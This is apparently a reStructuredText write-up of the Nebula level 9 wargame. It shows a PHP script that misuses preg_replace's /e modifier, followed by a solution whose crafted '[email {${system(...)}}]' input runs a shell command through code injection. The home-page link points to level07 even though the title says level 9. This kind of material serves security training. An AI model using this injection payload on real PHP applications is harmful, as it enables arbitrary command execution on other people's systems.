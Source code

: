 .. _nebula09:

.. role:: bash(code)
	  :language: bash

.. role:: php(code)
	  :language: php
		     
Nebula 9
========

Basic Information
-----------------

**Home Page** https://exploit-exercises.com/nebula/level07/

**Source Code**

.. code-block:: php
		<?php

		function spam($email)
		{
		    $email = preg_replace("/\./", " dot ", $email);
		    $email = preg_replace("/@/", " AT ", $email);

		    return $email;
		}

		function markup($filename, $use_me)
		{
		    $contents = file_get_contents($filename);

		    $contents = preg_replace("/(\[email (.*)\])/e", "spam(\"\\2\")", $contents);
		    $contents = preg_replace("/\[/", "<", $contents);
		    $contents = preg_replace("/\]/", ">", $contents);

		    return $contents;
		}

		$output = markup($argv[1], $argv[2]);

		print $output;

		?>

Solution
--------

Create a file in tmp and add this

[email {${system($use_me)}}]

then run

:bash:`./flag09 /tmp/file.txt getflag
